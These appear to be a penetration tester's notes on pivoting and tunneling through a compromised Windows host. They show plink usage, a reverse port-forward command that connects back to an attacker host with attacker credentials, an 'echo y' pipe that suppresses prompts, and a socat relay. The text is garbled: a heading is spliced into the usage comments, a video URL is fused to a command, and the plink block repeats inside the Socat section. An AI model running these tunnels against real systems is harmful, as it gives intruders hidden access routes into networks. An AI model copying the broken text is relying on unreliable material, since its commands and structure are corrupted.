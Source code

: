 ```powershell
# plink.exe
# Plink: command-line connection utility
# Release 0.70
# Usage: plink [options] [user@]host [command]
#        ("host" can also be a PuTTY saved session name)
# Options:
#   -V        print version information and exit
#   -pgpfp    print PGP key fingerprints and exit
#   -v        show verbose messages
#   -load sessname  Load settings from saved session
#   -ssh -telnet -rlogin -raw -serial
#             force use of a particular protocol
#   -P port   connect to specified port
#   -l user   connect with specified username# Port Redirection And Tunneling
#             Forward local port to remote address
#   -R [listen-IP:]listen-port:host:port
#             Forward remote port to local address
#   -X -x     enable / disable X11 forwarding
#   -A -a     enable / disable agent forwarding
#   -t -T     enable / disable pty allocation
  
C:\Users\Hacker\Tools> plink.exe -ssh -l $attacker_user -pw $attacker_passwordd -R $remote_ip:$remote_port:127.0.0.1:$target_port $remote_ip # remote being connecting back to a user on that $remote_ip

# Pipe it through to prevent interaction from windows host, so cmds from attacker host proxy through
cmd.exe /c echo y | plink.exe <options>https://www.youtube.com/watch?v=d6qtr-rYxXw
```

## Socat 

See [[Socat]] for more uses, although robust and can encrypt traffic the disadvantages of using socat is that we need to transfer it to the pivot host.
```bash
# A = Attacker, B = Pivot host, C = Server

# ssh tunnel with socat
socat TCP4-LISTEN:$port,reuseaddr,fork TCP4:domain.com:ssh
# Port Redirection And Tunneling
#             Forward local port to remote address
#   -R [listen-IP:]listen-port:host:port
#             Forward remote port to local address
#   -X -x     enable / disable X11 forwarding
#   -A -a     enable / disable agent forwarding
#   -t -T     enable / disable pty allocation
  
C:\Users\Hacker\Tools> plink.exe -ssh -l $attacker_user -pw $attacker_passwordd -R $remote_ip:$remote_port:127.0.0.1:$target_port $remote_ip # remote being connecting back to a user on that $remote_ip

# Pipe it through to prevent interaction from windows host, so cmds from attacker host proxy through
cmd.exe /c echo y | plink.exe <options>https://www.youtube.com/watch?v=d6qtr-rYxXw
```
​
## With SYSTEM level Windows Access..
